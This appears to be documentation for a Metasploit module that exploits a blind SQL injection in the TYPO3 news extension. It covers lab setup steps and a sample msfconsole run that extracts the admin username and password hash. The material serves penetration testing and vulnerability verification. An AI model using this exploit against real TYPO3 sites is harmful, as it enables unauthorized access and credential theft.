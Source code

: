 ## Description

News module extensions v5.3.2 and earlier for TYPO3 contain an SQL injection vulnerability. This module allows an unauthenticated user to exploit the SQL injection vulnerability by generating requests to retrieve the password hash for the admin user of the application. This module has been tested on TYPO3 3.16.0 running news extension 5.0.0.

## Vulnerable Application

In vulnerable versions of the news module for TYPO3, a filter for unsetting user specified values does not account for capitalization of the parameter name. This allows a user to inject values to an SQL query.

To exploit the vulnerability, the module generates requests and sets a value for `order` and `OrderByAllowed`, which gets passed to the SQL query. The requests are constructed to reorder the display of news articles based on a character matching. This allows a blind SQL injection to be performed to retrieve a username and password hash.

## Options

### PATTERN1 and PATTERN2

These patterns are used to determine whether the news articles have been reordered. By default, the module will search for headlines and set the first identified headline to PATTERN1 and the second to PATTERN2.

### ID

The value for query parameter `id` of the page that the news extension is running on.

## Verification Steps

- [ ] Install [Typo3 VM](https://www.turnkeylinux.org/download?file=turnkey-typo3-14.1-jessie-amd64.ova)
- [ ] Launch the VM and configure it
- [ ] SSH to the VM
- [ ]  `cd /var/www/typo3/ && composer require georgringer/news:5.0.0`
- [ ] Login to the web interface
- [ ] Enable the news extension
- [ ] Import [vulnerable page](https://github.com/rapid7/metasploit-framework/files/1015777/T3D__2017-05-20_02-17-z.t3d.zip)
- [ ] Enable page
- [ ] Verify if page is visible to unauthenticated user and note the id
- [ ] `./msfconsole -q -x 'use auxiliary/admin/http/typo3_news_module_sqli; set rhost <rhost>; set id <id>; run'`
- [ ] Username and password hash should have been retrieved

## Scenarios

### News Module 5.0.0 on TYPO3 3.16.0

```
msfdev@simulator:~/git/metasploit-framework$ ./msfconsole -q -x 'use auxiliary/admin/http/typo3_news_module_sqli; set rhost 172.22.222.136; set id 37; run'
rhost => 172.22.222.136
id => 37
[*] Trying to automatically determine Pattern1 and Pattern2...
[*] Pattern1: Article #1, Pattern2: Article #2
[+] Username: admin
[+] Password Hash: $P$Ch4lme3.gje9o.DjMip59baG7b/mIp.
[*] Auxiliary module execution completed
msf auxiliary(admin/http/typo3_news_module_sqli) > 
```
